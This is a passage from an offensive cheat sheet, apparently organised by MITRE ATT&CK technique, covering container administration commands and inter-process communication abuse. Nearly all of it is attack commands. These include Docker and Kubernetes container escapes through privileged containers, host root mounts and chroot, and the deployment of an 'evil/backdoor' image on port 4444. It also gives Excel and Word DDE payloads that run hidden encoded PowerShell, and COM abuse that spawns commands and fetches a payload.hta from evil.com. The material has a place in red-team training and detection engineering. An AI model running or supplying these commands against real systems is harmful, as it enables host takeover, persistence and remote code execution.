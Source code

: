 
## 7. Container Administration Command (T1609)

### 7.1 Docker Execution

```bash
# Execute command in container
docker exec -it container_id /bin/bash

# Run malicious container
docker run -it --rm --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host

# Escape to host
docker run --rm -v /:/mnt alpine chroot /mnt sh

# Deploy malicious container
docker run -d -p 4444:4444 evil/backdoor
```

### 7.2 Kubernetes Execution

```bash
# Execute in pod
kubectl exec -it pod-name -- /bin/bash

# Deploy malicious pod
kubectl run backdoor --image=evil/backdoor --restart=Never

# Privileged pod escape
kubectl run privileged-pod --image=alpine --restart=Never --privileged=true --command -- sh -c "chroot /host && bash"
```

---

## 8. Inter-Process Communication (T1559)

### 8.1 Dynamic Data Exchange (DDE)

```
# Excel DDE formula
=cmd|'/c powershell.exe -w hidden -enc <BASE64>'!'A1'

# Word DDE field
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell.exe -NoP -W Hidden -Enc <BASE64>"}
```

### 8.2 Component Object Model (COM)

```powershell
# Excel COM object
$excel = New-Object -ComObject Excel.Application
$excel.Visible = $false
$workbook = $excel.Workbooks.Open("C:\malicious.xlsx")
$excel.Run("malicious_macro")

# WScript.Shell COM
$shell = New-Object -ComObject WScript.Shell
$shell.Run("cmd.exe /c calc.exe", 0, $false)

# Internet Explorer COM
$ie = New-Object -ComObject InternetExplorer.Application
$ie.Navigate("http://evil.com/payload.hta")
```